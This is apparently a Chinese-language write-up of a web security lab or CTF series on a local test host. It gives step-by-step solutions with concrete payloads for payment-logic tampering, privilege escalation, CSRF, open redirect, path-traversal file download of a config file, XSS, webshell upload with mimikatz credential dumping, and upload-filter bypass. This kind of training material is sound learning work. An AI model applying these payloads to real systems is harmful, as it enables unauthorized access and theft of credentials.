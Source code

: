 ## 这关需要RMB购买
一开始有一个登入框，直接查看源码，发现可以直接访问后台连接，出现买书页面。
支付逻辑问题，抓包后将价格改为负数，会提示不能白白拿书，将价格都改为0，购买成功.
```bash
bill1=0&bill2=0&num1=10&num2=10&uid=1
```
## 越权
用给的账户登入，修改密码的之后，bp抓包，将用户名改成admin，修改admin密码成功
```bash
username=admin&password1=123&password2=123&password3=123
```
## CSRF
用上一关的账号名登录，修改密码，bp抓包生成csrf界面，将此保存为html 管理员打开后就会更改其密码了 完成了CSRF
## url跳转
熟悉的界面，查看源码
```bash
<!--<a href="index.php?url=#">I</a>-->
```
构造
```bash
index.php?url=www.baidu.com
```
成功跳转
## 文件下载
后台出了点小问题,此题是任意文件下载
## 我和上题有点像
此题也是任意文件下载，不过这题是post方式下载。
post请求
```bash
pic=../../../pentest/test/7/1/db/config.php&submit=%E4%B8%8B%E8%BD%BD
```
## 我系统密码忘记了
上传一句话，这里我上传了一句话，但是连接的时候却出现连接不上，有点怪。
连接上了，就可以利用mimikatz读取管理员的账户密码了
## xss
点击页面上的666,连接上的666，显示在页面上，反射性xss,直接在id=后面加上xss语句即可。
```bash
http://192.168.3.129/pentest/test/9/?id=%3Cscript%3Ealert(%27qianye%27)%3C/script%3E
```
```bash
192.168.3.129/pentest/test/9/?id=<img src onerror=alert('qianye')>
```
## 存储型xss
在输入框中输入上面的xss语句即可。
## 什么？上传不了图片
先正常上传一张jpg图片,然后抓包,将jpg后缀修改为php,过关。
## 明天双十一
看别人的writeup说有源码，但表示查看源码时什么都没有，有点问题。看一下别人的源码，只要修改url,x-forwarded-for,referer就可以啦
```bash
GET /pentest/test/12/?url=www.taobao.com HTTP/1.1
Host: 192.168.3.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
```